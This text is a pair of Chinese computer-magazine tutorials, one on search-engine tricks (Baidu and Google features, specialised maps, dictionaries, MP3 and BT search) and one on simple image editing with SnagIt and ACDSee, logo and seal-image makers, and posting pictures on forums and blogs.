
很多用户往往会遇到“该页无法显示”（找不到网页的错误信息），而网页连接速度缓慢更是家常便饭。不过借助百度提供的快照即可很好地解决该问题。
百度搜索引擎在后台已预览了网站的内容并采用缓存的方式拍下了网页的“快照”，因此在无法链接所需网站时，通过百度快照即可显示该网页在百度中的缓存内容，并可在快照中用不同的颜色在网页中标明搜索关键字。本例以搜索论坛的帖子为例，输入关键字“魔兽世界萨满 inurl:bbs”，很快得到百度的搜索结果，如图11所示。



如果某个搜索结果访问速度非常慢，可单击“百度快照”链接，很快百度即可显示该网页的缓存内容，且搜索的关键字已用不同的颜色加以标记，如图12所示。



### （五）新闻快速搜索

很多搜索引擎提供了强大的新闻搜索功能，如百度的新闻搜索即一直被多家大型网站作为信息采集的主要途径。在浏览器中访问百度新闻搜索（网址：http://news.baidu.com）。百度新闻除了海量的数据以外，还有非常高的数据检索效率，本例搜索“劳动节”关键字，如图13所示。



此外，用户如在百度新闻搜索首页单击左上角网页图标下方的“图片”链接，即可用浏览新闻图片的方式来浏览新闻，符合了读图时代的需求。较之百度，搜索巨头Google也提供了新闻搜索服务（网址：http://news.google.com/），功能和百度的新闻搜索基本相同。

### （六）图片巧搜罗

很多大型的搜索引擎提供了图片搜索功能，如百度图片搜索（网址：http://image.baidu.com），用户只需输入关键词，即可搜索不同要求的各种图片。

本例以搜索“劳动节”的相关图片为例，在百度的图片搜索引擎中输入“劳动节”关键字。用户可通过选择关键字输入框下方的单选框来限定对图片的要求，如“新闻图片”、“全部图片”、“大图”、“中图”、“小图”或“壁纸”等，如图14所示。



如用户需限定图片的大小，那么可直接输入像素，如要求搜索 1024*768 像素的图片，可输入“劳动节 1024*768”关键字。

Google也提供了图片搜索功能（网址：http://www.google.com/imghp?hl=zh-CN&tab=wi&q=）。用户只需在检索框内输入关键字后即可找到相关资料。本例输入“劳动节”其搜索结果中图片将以缩略图的形式显示，且每个搜索结果都注明图片名称、类型、文件大小、所在网页等信息，并可通过下拉框来选择图片的尺寸，如图15所示。



单击缩略图链接后，Google会将图片的缩略图和原网页分为两栏排在一个网页中，单击缩略图下面的“查看原始图像”链接则可直接显示原来的图像，如图16所示。

此外，用Google搜索图片时，不妨用中、英文分别搜索同一个关键字，往往可找到更多的图片，如用“tiger”（老虎的英文）作为关键字再次搜索，还可找到一批老虎的图片。Google还提供了“高级图像搜索”功能，在图片搜索首页中单击“高级图像搜索”链接，即可进一步设置关键字的匹配程度、图片的类型和大小，甚至还可指定在某个网站内进行搜索，从而进一步提高搜索精度，如图17所示。




搜索图片的网站，如http://www.gograph.com/、http://www.art.com/、http://www.picsearch.com/等，用户也可尝试通过这些网站来进行更专业的搜索。

### （七）FTP资源巧搜索

虽然BT等下载协议正方兴未艾，但通过FTP服务器来存放或发布文件仍是一种常见的方法，因此用户如查找某些软件，不妨搜索FTP服务器上的资源。

北大天网FTP搜索引擎（网址：http://bingle.pku.edu.cn/）即为一款不错的搜索引擎，可查询教育网内FTP服务器的各类文件。用户只需输入需搜索的关键字，本例查找“WinRAR”压缩解压程序，然后在搜索类型中选择“程序”，最后单击“搜索”按钮即可得到FTP服务器的下载资源，如图18所示。



### （八）搜索引擎大搜罗

目前，各类搜索引擎可谓多如牛毛，因此有些搜索引擎独辟蹊径，将功能演变为专门搜索搜索引擎的工具，从而帮助用户选择合适的搜索引擎，实现事半功倍的资料检索。中国搜索引擎指南网（网址：http://www.sowang.com/）即为一个较出色的搜索引擎。该网站包含了许多搜索引擎的信息，并且可自动利用多个搜索引擎进行搜索。

用户可在首页上单击左侧功能列表中的“常用搜索引擎服务大全”链接打开常用搜索引擎服务大全（网址：http://www.sowang.com/sousuoyinqing.htm）。该页面不仅提供了强大的多搜索引擎选择，还直接给出了大量搜索引擎功能的入口链接，如图19所示。



如用户需对搜索引擎加以分类，那么可访问该网站的搜索引擎及分类（网址：http://www.sowang.com/link.htm）。该页面将按不同的功能对搜索引擎进行完整而全面的分类。

## 三、行业专用搜索

### （一）巧搜学术论文

通常搜索学术论文时，不少用户往往会切换于各大高校的内部数据库。其实随着Google搜索技术的不断完善，完全可轻松实现学术论文的搜索。

打开浏览器，访问Google学术搜索引擎（网址：http://scholar.google.com）。本例以搜索“人工智能”的学术论文为例，在搜索框内输入“intitle:人工智能”关键字。随后即可得到精确的搜索结果，并可显示该论文被引用的次数以及单击不同作者链接进行筛选，方便了用户的使用，如图20所示。



### （二）单位换算也搜索

如需在各种货币单位之间进行换算，也可借助Google来轻松实现。本例在搜索窗口输入“10人民币等于多少欧元”。Google将显示计算后的结果，如图21所示。

此外，Google还支持多种货币转化格式，部分关键字格式如下所述：

- 3.5 USD =? GBP （含义：3.5美元折合多少英镑）
- 10 新加坡元等于多少印度卢比
- 8 人民币换成泰国的货币
- 30 人民币每公升 =? 美元每加仑

### （三）智能计算器

其实Google不仅是一个综合性的搜索引擎，还是一个非常强大的计算器，本例在Google搜索框中输入“光速乘以2秒等于多少”。Google将显示精确的计算结果，如图22所示。



Google计算器的功能非常强大，用户还可在搜索框中输入：“5+2*2=”、“2^20=”、“sqrt(-4)”等计算表达式，Google均会显示精确计算后的答案。

### （四）翻译释义不求人

Google提供了强大的翻译和解释功能，用户只需输入关键词（“翻译”、“fy”或“FY”任选其一）和需翻译的中（英）文单词，Google即可直接显示单词的英文（或中文）翻译结果。本例以查找eclipse（日食）的中文翻译为例，只需在搜索字段中输入“fy eclipse”关键字即可。Google即可显示单词“eclipse”的中文详细解释，如图23所示。



## (五)在线大字典

很多专业的搜索引擎提供了强大的在线字典功能，本例将介绍英语和汉语的在线字典。

#### 1.英语字典

金山词霸是一款知名的字典软件，其还提供了强大的在线字典搜索（网址：www.iciba.com）。本例查询单词“eclipse”（日食）的中文解释。用户还可单击结果页面中的喇叭图标来获取单词的真人发音，如图24所示。



百度也提供了强大的在线字典功能（网址：http://dict.baidu.com/）。百度的在线字典搜索结果提供了单词对应的例句说明，可帮助用户结合例句来更好地学习单词的含义。本例仍搜索“eclipse”（日食）的中文解释，如图25所示。



#### 2.汉语字典

在线新华字典（网址：http://xh.5156edu.com/）是一个较强大的汉语在线字典。其现已收录20754个汉字。用户只需在搜索框中输入需查询的汉字即可。网站搜索的结果将包含汉字的拼音、笔划、部首、部首笔划和解释等内容，如图26所示。



## (六)疑难问题找搜索

如果遇到各类生活中的问题，也可通过搜索引擎来帮助回答。“百度知道”即为一个大型的网上互助平台，用户可在线提交问题，然后等待网友的答复。访问百度知道（网址：http://zhidao.baidu.com/）。针对常见的问题，百度已进行了分类，因此只需单击相应的链接即可，如需进一步针对问题来寻找答案，可输入关键字后进行搜索。本例输入“电脑死机怎么办”关键字。单击搜索结果即可获得网友针对相关问题的详细回答，用户可作为参考来解决各自遇到的问题，如图27所示。



新浪提供的“爱问知识”也非常实用（网址：http://www.iask.com）。单击“知识人”链接即可进入问答页面，随后可用类似“百度知道”的操作来提问或进行解答，如图28所示。



**小提示：** 如用户需获得更好的问答服务，推荐注册相关账号（如“百度知道”和“爱问”），随后即可得到更多更强的功能。

## (七)英语资料强力搜

除了常见的Google、Yahoo等综合性搜索引擎之外，用户如需搜索英语资料，不妨借助一些专业的搜索引擎。

1.  AltaVista（网址：http://www.altavista.com/）
    该搜索引擎包括英文和其他几种西文版，提供纯文字版搜索。此外，该网站还提供全文检索功能并有较细致的分类目录以及英语与其他几国语言的双向在线翻译等服务。
2.  Excite（网址：http://www.excite.com/）
    该搜索引擎是一个基于概念性的搜索引擎，在搜索时可“智能性”推断用户查找的相关内容进行搜索。其查询支持英、中、日、法、德、意等11种文字的关键字。
3.  Infoseek（网址：http://www.infoseek.com）
    该搜索引擎提供全文检索功能，并有较细致的分类目录，还可搜索图片并提供了字典、黄页和股票报价等多种服务。
4.  AOL（网址：http://search.aol.com/）
    该搜索引擎提供了类目检索、网站检索、人名查询、黄页查询等多种功能，其目录分类细致且收录丰富。
5.  HotBot（网址：http://hotbot.lycos.com/）
    该搜索引擎提供详细类目的分类索引，搜索速度较快且提供功能较强的高级搜索及时间、地域等限制性搜索。

## 四、影音娱乐搜索

### （一）歌曲大搜索

百度提供了强大的MP3搜索引擎（网址：http://mp3.baidu.com）。用户只需输入歌手名或歌曲名，即可进行搜索。本例搜索“劳动最光荣”的MP3格式文件。百度很快即显示了搜索结果，包含了歌曲名、歌手名、专辑名、试听、歌词、大小、格式和链接速度等数据，如图29所示。



单击“歌曲名”链接后将弹出窗口显示相关的版权信息和免责说明，随后单击地址即可试听，如图30所示。



搜刮网（网址：http://www.sou gua.com）也提供非常方便的音乐搜索功能。该网站可调用多个搜索引擎进行搜索，因此搜索成功的概率大为增加。

如需搜索国外音乐，那么推荐一些国外搜索MP3的网站，如http://www.3pmmp3.com/、http://www.audiofind.com/、http://www.mp3.com/、http://www.seekmp3.com/等。

**小提示：** 音乐有版权，如用户准备收藏相关歌曲，建议购买正版唱片。

### （二）BT巧搜索

BT下载在宽带日益普及的今天已司空见惯，本例将介绍一些功能强大的BT搜索引擎。

#### 1. BT搜索

该搜索引擎有BT界的“Google”之称，其无论种子文件数量还是资料及时性均非常令人满意，是目前国内最大的BT种子发布站（网址：http://bt.btchina.net）。

#### 2. 5QZone

该搜索引擎的特色在于可为校园网提供强大的BT搜索和发布站点，为校园网中搜寻BT种子的学生们指明了方向（网址：http://bt.5qzone.net）。

### （三）巧搜Flash

Flash是很多网友喜闻乐见的一种动画格式，搜索Flash，百度无疑最好的搜索引擎之一，百度Flash搜索目前可搜索约五万个Flash作品，可帮助用户快速找到喜欢的Flash作品。

在百度MP3下载首页（网址：http://mp3.baidu.com）上选择“flash”单选框，随后即可输入关键字进行搜索。

## 五、生活便利搜索

### （一）网络黄页

用户往往使用过电话黄页本，不过各地的电话黄页往往仅登载当地的电话，因此不妨尝试使用百度搜索引擎提供的网络黄页来检索各地的通信方式。在浏览器中访问百度黄页（网址：http://yp.baidu.com），本例输入“中国移动”关键字。很快即可显示各类包含搜索关键字的电话黄页信息，如图31所示。



### （二）地图尽搜罗

#### 1. 百度地图搜索

百度地图搜索 (网址: http://map.baidu.com) 可查找指定的城市、城区、街道、建筑物所在的地理位置, 也可找到距离最近的所有餐馆、学校、银行、公园。此外, 百度地图搜索还提供了路线查询功能, 如去某个地点, 百度地图搜索会提示如何换乘公交车或最佳驾车路线。本例搜索 "北京市 故宫", 如图32所示。



在搜索结果中, 用户可通过左侧的滑块来控制缩放比例, 通过单击右侧的链接来定位确切的目标, 周围的交通情况和地面标识一应俱全, 不必担心迷路。

Google也提供了地图查询功能 (网址: http://ditu.google.com/), 而较之百度、Google等大型综合类搜索引擎, 一些专业的地图搜索则更能让用户满意, 以下将介绍一些典型的网站。

#### 2. 丁丁地图

丁丁地图搜索 (网址: http://www.ddmap.com) 在查询交通路线方面有较大的优势, 还可针对目标地点进行周边配套设施, 如银行、学校、邮局、加油站等的搜索以及诸如停车场、银行、公园、茶馆等的专业地图搜索。本例搜索从上海市 "人民广场" 去 "外滩" 的公交路线, 可在首页分别输入两个地名, 如图33所示。



在搜索结果中, 用户可通过左侧的滑块来控制缩放比例, 通过单击右侧的链接来定位确切的目标, 周围的交通情况和地面标识一应俱全, 不必担心迷路, 如图34所示。

#### 3. MapBar电子地图

MapBar电子地图搜索 (网址: http://www.mapbar.com) 使用也非常方便。以搜索 "北京大学" 为例, 在搜索栏输入 "北京大学", 城市选择 "北京市", 单击 "地图搜索" 按钮开始搜索, 搜索比较快捷。单击不同的搜索结果, 右侧的地图也会随之变化, 设计非常人性化, 如图35所示。





此外, 中国城市通 (网址: http://52tong.com)、图行天下 (网址: http://www.go2map.com) 等均可进行相关地图搜索, 并可在地图界面中进行放大、缩小等操作, 还可启用漫游 (随意拖动地图) 等功能。

### （三）天气早知道

天气情况是很多用户经常查询的信息之一, Google提供的天气查询来自于一个更新及时的中文气象网站, 因此非常适合国人使用, 且无论用户输入中文和英文均可查询。如了解上海的天气情况, 可输入关键字: "上海 天气" 或 "shanghai tq"。

返回的查询结果中会在第一条出现一个 "上海天气预报", 用户单击后即可查看当天上海的天气情况, 如地名相同, 用户只需再进行一次选择即可, 如图36所示。



### （四）餐饮大搜索

民以食为天, 一些专业的餐饮搜索引擎以各自颇具特色的特点吸引了大量的用户。

#### 1.咕嘟妈咪餐饮搜索

该搜索引擎（网址：http://www.gudumami.cn/），可提供店名、介绍、服务等信息，且还提供了部分餐馆的预定服务。本例搜索“烤鸭”关键字，搜索结果如图37所示。



单击搜索结果的链接即可查看详细信息，并提供了网上订位等功能。

#### 2.大众点评网

“大众点评网”是目前资料涉及面最广的餐饮搜索网站（网址：http://www.dianping.com）。本例搜索“烤鸭”关键字，搜索结果中该关键字对应餐馆的各种常见菜均可罗列，如图38所示。



### （五）生活信息大搜索

在日常生活中需搜索的生活信息其实也有很多，如火车车次、邮政编码、电话区号等。百度常用搜索（网址：http://www.baidu.com/life/）即可发挥很大的帮助作用。本例将介绍一些非常实用的生活信息搜索方法。

#### 1.火车车次

单击百度常用搜索的“火车车次”链接，将自动移至“车次查询”板块。本例在出发地中输入“上海”，在目的地中输入“北京”，单击“查询车次”，在弹出的窗口中，即可列出直接从出发地到达目的地的全部火车车次，如图39所示。



#### 2.邮政编码和地区区号

在百度常用搜索中单击“邮政编码”链接或直接访问百度邮编（网址：http://youbian.baidu.com/），输入需查询的邮政编码，在搜索结果即可显示该邮编所在的具体地点，如图40所示。



在百度常用搜索中单击“地区区号”链接，即可自动跳转至查询界面，用户可选择按地名来查询电话区号或通过电话区号来反查地名。以按电话区号来查询地名为例，输入需查询的关键字“010”并单击“查询区号”按钮，即可显示该区号对应的地区，如图41所示。



此外，用户还可输入地名来查询区号。输入需查询的关键字并单击“查询地名”按钮，即可显示该地区对应的区号。

### （六）巧搜电视节目

收看电视是日常生活中的一个组成部分，通过互联网即可在办公室中提早搜索到下班后可收看的电视节目。访问搜视网（网址：http://www.tvsou.com/），该网站会自动判断网民所在的IP地址来显示不同的首页。用户只需输入需查询的关键字并选择按节目表、主持人或剧集进行搜索即可。

在首页上还自动滚动更新各个电视台目前在播映的节目内容，单击每个电视台的“节目表”按钮即可查看每周的节目预告，且针对一些电视剧还有具体的剧情介绍链接，如图42所示。



轻松进阶：图片简易处理实用教程

文 / 彭文波

在网络生活中，我们经常需要进行简单图形处理，比如想换个QQ表情、做个更精彩的Logo、发布一个更有个性化的BBS贴图等。但是，Windows自带的画图软件功能比较单一，使用Photoshop、CorelDraw等软件又有一定难度，而且软件动辄上百兆，安装起来费时费力。在这种情况下，一些功能丰富的简易图片处理软件应运而生。同时，一些常用的软件如ACDSee、QQ等也在图形处理方面增加了不少实用的功能，这大大方便了用户的日常图片处理。本专题从工具使用技巧和应用的角度出发，通过多种方法的巧妙结合，在处理方式上提供多种选择，使用户在冲浪的过程中更加得心应手。

## 一、基础篇：简易抓图和编辑处理

“兵来将挡，水来土掩”，碰到难题时，人们总会希望有几个得力的助手，在图片处理难题面前也不例外。下面，首先推荐一款优秀的简易图片处理软件 SnagIt，通过它和看图软件 ACDSee 的配合，可以帮助我们解决图片处理中的很多问题。

软件下载地址：http://www.techsmith.com/

汉化补丁：http://www.onlinedown.net/soft/5305.htm

之所以要推荐这一款抓图软件，因为它还包含了抓图之外的丰富功能。这就像我们在足球场上所见到的一个现象：能打多个位置的选手往往能够得到教练的青睐，比如孙继海在曼城就能够胜任多个位置。言归正传，SnagIt 不仅能捕捉 Windows 下的静止屏幕，还能捕捉视频图像格式，甚至还可以捕获屏幕操作保存为视频文件。此外，还可以用 “SnagIt 8 Editor” 编辑屏幕捕获的图像，制作出具有个性化的图标和BBS贴图，比较适用于论坛、聊天等场合，简直就是 “物超所值”。目前，该软件已有汉化版，注册时可以借助网络搜索完成。

### 1.快速制作浏览缩略图

在论坛或其他需要浏览图片的场合，我们经常需要用到缩略图。通过缩略图，可以把原图像按比例缩小作为原图的预览。借助软件高质量的图像缩略图画面显示和飞快的图像缩略图显示速度，用户可以在多幅图像中迅速地定位到自己需要的图像文件。SnagIt 软件自带了一个图库浏览器，启动 “SnagIt 8 Catalog Browser”（SnagIt图片浏览器），选择 “工具” 菜单下的 “创建 Web 页” 命令，经过五步设置即可快速生成个性化的缩略图。

（1）选择文件并设置 Web 页的标题、主题和背景
选择主题时，可以显示不同的风格，如 “list（列表）”、“Navigator（导航）” 等。选择完毕，单击 “下一步” 按钮。

（2）选择图像的源路径和 Web 页的目标文件夹
在这个步骤中，设置缩略图存放的目标文件夹。需要发布时，直接拷贝这个文件夹即可。单击 “下一步” 按钮。

（3）为缩略图设置输出选项
包括缩略图的文件类型、兼容的文件类型以及文件名等。单击 “下一步” 按钮，如图 1 所示。



（4）更改显示图像的 Web 页版式
包括字体颜色、标题背景等。单击 “下一步” 按钮。

（5）设置 Web 页装载时显示的过渡效果，修改其属性值
单击 “完成” 按钮，即可在指定的文件夹中生成缩略图。在主界面中，双击生成的图片即可显示原图，也可以单击右键保存缩略图并发布到网络上，如图 2 所示。



小技巧：如果欲生成的图片较多，在打开的缩略图窗口中，会显示“上一页”和“下一页”按钮，用于前后翻页。

### 2.快速截取并制作个性化图片

在论坛上，我们经常会看到许多个性化的头像。不少“大虾”在给菜鸟做软件使用的操作示范时，也经常会截取漂亮的软件操作界面，甚至利用Windows界面制作个性化签名。那么，这些图片是如何制作的呢？其实，制作方法很简单，利用SnagIt可以轻松实现。

#### （1）设置热键

打开SnagIt主程序，单击“工具”菜单下的“程序参数设置”，在弹出窗口的“热键”选项卡中，可以看到“全局捕获热键”，默认情况下是键盘右上角的Print Screen键。用户也可以根据需要进行任意组合。当开启SnagIt时，点击相应热键即可截图。本例选择默认的Print Screen键作为热键。

#### （2）设置输入输出范围

SnagIt的输入范围很广，用户可以直接截取屏幕、窗口、截取选定的范围或固定的范围，也可以选择指定的对象。也就是说，只要是看到的桌面图像内容，都可以为我所用。在输出对象上，包含的范围也十分广泛，包括：打印机、剪贴板、多种格式的文件、Email等。

**小技巧：** 通过SnagIt可以截取Windows窗口对象。窗口对象十分细致而具体，包括了窗口中的菜单栏、工具栏、编辑区、标尺等界面元素。截取过程中，将光标分别移到这些对象上面，当显示出粗方框包围这些对象时单击鼠标即可。

#### （3）截取个性化图片

在5D多媒体（http://www.5d.cn）或闪客帝国（http://www.flashempire.com）等多媒体网站上，有许多漂亮的动画，其中不乏优秀的手绘人物，如果能够保存下来作为头像，就别有一番滋味了。但是，右键单击这些图片，往往徒劳而返，更多的只是关于Flash的播放提示。在这种情况下，SnagIt就可以发挥作用了。

首先，启动软件并单击“捕获”菜单，将“输入”下的选项设置为“范围”。

然后，单击Print Screen热键，按住鼠标左键并确定一个矩形框，选择所要截取的图片，放开鼠标键后即可看到截取结果。

**小技巧：** 设置输入范围为“对象”，可以进行更加个性化的图片捕获，只要点击一下屏幕上的某个图标，即可收藏。

#### （4）对图片进行简单加工

在捕获预览窗口，还有许多简单而实用的工具，可以在截图上添加箭头、文字及其他图形。下面，以添加“项目编号工具”为例：

首先单击左侧的“项目编号工具”，在截图的适当位置新建一个对象，然后输入文字并设置字体、字号和颜色。

为了让文字框更有特色，可以在属性区域的“种类”下拉菜单中选择调整形状，更改大小时可以直接拖动文字框四周的节点。

另外，还可以更改颜色和阴影，使贴图更具个性特色，如图3所示。



图 3

#### （5）保存图像

编辑完毕，即可设置文件名和路径，同时保存文件。可见，整个操作十分简单，和Windows自带的“画图”工具有几分类似，但在功能上更加丰富。

### 3.对图片进行简易特效处理

在进行图片处理的过程中，特效是一个很重要的部分。但是普通的软件如Windows自带的画图工具没有提供这个功能。在SnagIt中，只需要简单的几个步骤，就可以完成一些很实用的特效功能。

#### （1）自动设置图片加框

描边是处理图片时经常使用到的一种效果，在Photoshop等软件中，需要手动处理，显得十分麻烦。通过SnagIt能够实现自动处理。

在“SnagIt编辑器”中，单击“效果”菜单下“边框”命令，打开设置窗口。

在边框设置区域，可以勾选“将边框放置在图像外”和“3D效果”；其中，在3D效果设置区域，可以自由设置边框的总宽度、阴影宽度以及颜色。

设置的过程中，可以随时在左边的窗口看到预览效果。这样，在BBS贴图或其他场合，就可以充分的张扬个性了。

#### （2）添加水印

在许多论坛中，我们经常会见到一些添加了水印或公司Logo的贴图，这些图片很容易给人留下深刻的印象，而且能够起到保护图片的作用。利用SnagIt可以实现这个功能。

首先，准备一幅待添加的小图片，如“电脑爱好者”网站的Logo图片。

然后，在SnagIt编辑器中，单击“效果”菜单下的“水印”选项，同时选择待添加的图片。

单击“高级”按钮，还可以进行水印的衬托效果、位置和缩放等参数的设置。

这样，一张具有防伪标识的个性化图片就生成了，如图4所示。

##### （1）使用 SnagIt 或 ACDSee 转换图像格式

使用 SnagIt 或 ACDSee 都能方便地转换图像格式。选择 ACDSee 时，建议选择较低的版本，如 ACDSee 3.1 完美版。因为新版本一般体积很庞大，尽管功能很多，但使用并不太方便。下面首先以 SnagIt 为例讲解。

- ①选择待转换图片
将所有需要转换的图片文件集中到一个文件夹中，运行“SnagIt 图库浏览器”，然后单击“工具”菜单下的“批量转换向导”，在弹出的文件对话框中，点击“添加文件”按钮，打开保存图片的文件夹，选择需要转换的图片，单击“下一步”。

- ②对需要转换的图片执行增强和特殊效果
在“转换过滤”对话框中可以对所有图片应用同一种过滤效果。同时，还可以设置水印、边框效果、图像分辨率等。修改完毕，单击“下一步”。

- ③选择输出目录和输出格式
选择合适的“输出目录”，并单击“文件格式”下拉按钮，从下拉列表中选择论坛或博客所需要的图片格式，然后单击“下一步”完成转换工作。
这样，在输出目录中，就可以看到论坛所需要的图片了。

小技巧：也可以使用 ACDSee 或 Word 进行转换：

- ①ACDSee 转换方法与之类似
首先，使之处于文件浏览模式，选中一张图片后，选择“工具”菜单下的“转换图像格式”；然后，在弹出的面板中选择待转换格式，并选择是否替换原文件即可。

- ②使用 Word 批量瘦身图片
首先用 WORD 的插入图片功能将所有图片全部插入文章，然后点击“文件”菜单下的“保存”命令，在弹出的窗口中，将保存类型选择为“网页（*.htm, *.html）”，就可以实现一次性把原图片全部变成 JPEG 格式了。

##### （3）让图片边缘更具个性化

现在，许多图片形状都是四四方方的矩形，显得毫无个性。如何让图片边缘处理更有个性呢？比如：形状不规则，甚至像故意撕坏的样子，把这些图片贴到论坛里，“回头率”肯定会提高！

在 SnagIt 编辑器中，打开或截取相关图片后，单击“效果”菜单，选择“边缘效果”下的“锯齿边缘”，然后在右边的对话框中调整效果大小及阴影设置等项，一个具有个性的图片边缘就显示出来了。

##### （4）颜色处理

SnagIt 在颜色方面的变化十分丰富，包括了中间色、灰度、透明色等效果。同时，还可以进行“柱状均衡”、“组织对比度”、“伸展度”、“亮度检测”等方面的高级设置。使用这些颜色处理方法，可以得到千变万化的效果，如图5所示。



此外，SnagIt 还内置了许多种图像的效果，相对于 PhotoShop 的滤镜和插件来说，要方便多了，大大减少了图片处理的难度。

### 4. 图片格式转换、尺寸转换和压缩处理

在论坛、博客等场合发布文章时，经常需要用到特定的图片格式，而且不少论坛对图片的大小也进行了限制。例如，新浪博客“个人信息中心”对上传图片的宽和高进行了规定，要求大小不要超过 30KB，并且为.gif 或.jpg 格式。要解决这种问题，可以使用以下方法：

##### （2）利用 ACDSee 进行图片压缩处理

对于一般论坛或博客来说，对图片附件的大小都有限制。要解决这个问题，可以通过修改 ACDSee 的压缩率来解决。如果目前的图片压缩率是 65%，可以将其值变小，然后选择保存文件名。如此操作后，文件实际大小就变小了，减少了许多麻烦。



用 ACDSee 打开图片，单击“文件”菜单下的“另存为”选项，在弹出的面板中点击“选项”按钮，如图6所示。

##### （3）利用较高版本 ACDSee 进行图片大小处理

为了上传较大图片，我们通常会在 Photoshop 等专业图像处理软件中处理图片的大小，尽管可以用批处理命令进行，但对普通用户来说，显得十分麻烦。这个时候我们就要考虑版本较高的 ACDSee 了，在 ACDSee 5.0 以上版本中，批量调整图片尺寸十分容易。本例中以 ACDSee 9.0 为例，文件大小为 31.9MB。



在ACDSee中打开图片所在文件夹，在界面右侧可以适时浏览所有图片的缩略图，然后选择需要更改尺寸的图片。
单击“工具”菜单下的“调整图像大小”命令，出现“调整图像大小”对话框，在三种调整方式中选择一种方式。
单击“开始调整大小”按钮，ACDSee会自动进行调整，完成后即可看到实际效果。
此外，还可以通过直接修改百分比、实际/打印大小等方式进行大小的调整。
当然，使用较高版本的同时，也可以使用其他功能，如调整图像曝光度、调整图像时间标签等，如图7所示。



## 5. 简易LOGO制作和设计

LOGO是标志、徽标的意思。LOGO图形化的形式，特别是动态的LOGO，比文字形式的链接更能吸引人的注意。LOGO制作方法很多，既可以通过专用的Logo制作软件，也可以通过网络直接制作Logo。

### (1) 通过网站制作Logo

现在，出现了许多专门制作Logo的网站，只要输入简单的文字，进行简单的颜色、字体选择后，就可以生成漂亮的Logo了。下面，以Logo在线制作为例。网站地址为：http://www.logomaker.cn。
网站提供了多种类型的Logo制作，包括：中文LOGO在线制作、Web 2.0 Logo在线制作以及多种动态logo制作。在功能最强大的“动态logo制作”中，包括了灯光效果、打字闪光、织梦幻影、蠕动边框、闪光文本、广告牌效果等效果。选择相应的分类，然后就可以开始进行Logo设计了。
以“动态LOGO在线制作”为例。
首先，选择一种动态风格，本例选择“织梦幻影”效果。
然后，在Logo设置区域，输入Logo文本，如“爱好者”，并选择LOGO字体。在文本对齐方式中选择默认的“Logo文本居中”；
输入网址并设置字体。设置完毕，单击“生成动态Logo”按钮，即可在右边看到生成的动态Logo图片。
直接点击右键下载，也可以单击“点击下载Logo>>”按钮，即可得到制作的Logo图片，如图8所示。


### (2) Logo制作利器AAA Logo V1.21

软件下载地址：http://www.onlinedown.net/soft/37037.htm
制作Logo时，当然可以使用Photoshop等大型图像处理软件，但Photoshop实在是太复杂了。“术业有专攻”，现在推荐一款功能强大、方便易用的专用Logo设计软件——AAA Logo。它提供100余种模板，2080多种素材，而且用户可以创作、编辑，得到丰富的对象和效果组合。在某些复杂的图像处理方面，甚至还超过了Photoshop。最关键的是，使用者无需任何入门知识即可轻松掌握。所有内置Logo对象都是基于矢量的，可以轻易的缩放和旋转。软件安装需要注册时，可以借助网络搜索完成。唯一遗憾的，该软件对中文字符支持不太好。不过，一般的Logo都是用字母和字符为主的，可以把需要的汉字用位图格式导入，如图9所示。



### 6. 制作个性化公章

在论坛或博客中，我们经常可以看到许多风格独特的公章或签名。要制作这样的图片，可以使用“优泰电子印章图片生成器”。
软件下载地址：http://www.newhua.com.cn/soft/29249.htm
下载完毕，安装软件后，直接启动开始菜单中的“优泰电子签章图片生成器”。软件启动后，弹出“优泰电子印章图片生成器”。通过这个软件，我们在短短几分钟内就可制作出非常专业的电子印章图片。直接输入印章文字内容，可以改变印章的直径、边线宽度、选择字体、字号、中心图案、调整印章文字间隔，设定字宽率等多种选项。另外，还可以将形状修改为圆形。下面是一个“电脑爱好者俱乐部”的专用章示例，如图10所示。



这个软件能把印章图像直接复制到剪贴板中，单击软件界面左上方的保存按钮图标，可将生成的电子印章保存为bmp或者gif格式。还可以直接在印章上单击左键，选择“印章图片另存为”。这样，可以将图片保存下来。值得一提的是，还可以将制作好的印章图像直接复制到剪贴板中，以适应电子公文、电子政务、凭证打印、各种业务数字化开发等方面的应用。当然，如果我们在论坛中发表留言或设置签名的时候，也可以用这个软件来展示一下个性。为了便于在论坛中使用，建议先将这个图章文件上传到相册中。



通过上述工具和技巧的结合，我们已可以灵活制作属于自己的简单贴图或Logo。下面，就可以“牛刀小试”了。

## 二、应用篇：论坛和博客图片攻略

在论坛或博客中，我们不仅要发布文字，还要发布丰富的图片，这样才能吸引别人的注意。但是，在实际发布的过程中，我们总会遇到格式不对、图片大小超过限制以及图片地址不正确等问题，让人在冲浪的过程中倍感扫兴。下面，我们以论坛和博客为主要对象，结合实际发布中遇到的常见问题，分析图片的发布技巧。

### 1. 文件地址和引用

在很多论坛中经常有类似的提示：“请贴有绝对地址的图片”。这是什么意思呢？下面，我们来看看什么是绝对地址和相对地址。

绝对地址是文件在网络或本地的绝对位置。例如，http://www.cfan.com.cn 或 file:///d:/homepage/index.htm。相对地址就是被链接文件相对与当前页面的地址。比如说，链接和当前页面同级的文件地址只要用类似的“index.htm”即可；链接当前页面下级子目录下的文件用“目录名/index.htm”；链接当前页面上一级目录下的文件则用“../index.htm”；链接同级但在另外一个子目录中的文件用“../目录名/index.htm”。

> **小知识：** 如果拥有一个服务器空间，或者正在开发一套网络程序，文件之间的调用就要尽量使用相对地址了，搬家到新空间后，因为文件彼此之间的相对位置关系没有改变，所以这些地址仍然是有效的。对于普通用户来说，如果无法对网站的目录进行操作，为了保证图片的正常显示，所以就要尽量使用带有绝对地址的图片了。前提是这个绝对地址必须确保连接有效。

例如，登录网易相册 http://cfantest.photo.163.com，进入第一个目录，可以看到一张 Logo 图片，在图片上点击右键，在弹出的菜单中选择“属性”，即可看到其绝对地址为：http://img.photo.163.com/-EQGWFp-ZVAU6ngcB89cow==/108649341010875795.gif。以后，在论坛或博客中需要引用这张图片时，输入这个绝对地址即可正确显示，如图11所示。

### 2. 论坛和博客中的头像设置

在论坛或博客中设置头像时，一般都会用到用户控制面板。注册用户之前，论坛都会给每个注册用户自动配一个默认的头像，不过，这些头像一般缺乏用户个性。以典型的动网论坛为例，打开用户控制面板，然后点击“资料修改”，头像设置部分如图12所示。



为了得到更加个性化的头像，我们可以采用以下步骤进行设置：

- 1. 利用论坛提供的头像
在上面的论坛设置中可以看到，在“基本设置选项”中包含了“头像”和“关于自定义头像”。其中，在“头像”中，用户可以选择一个个性图片，发表帖子时，该图片将显示在名字下方。单击“论坛头像选择”后面的下拉菜单，用户可以在论坛提供的头像中任意选择。这里使用了相对地址，是对于本地服务器而言的，如 “Images/userface/image4.gif”。

- 2. 上传本地电脑的文件
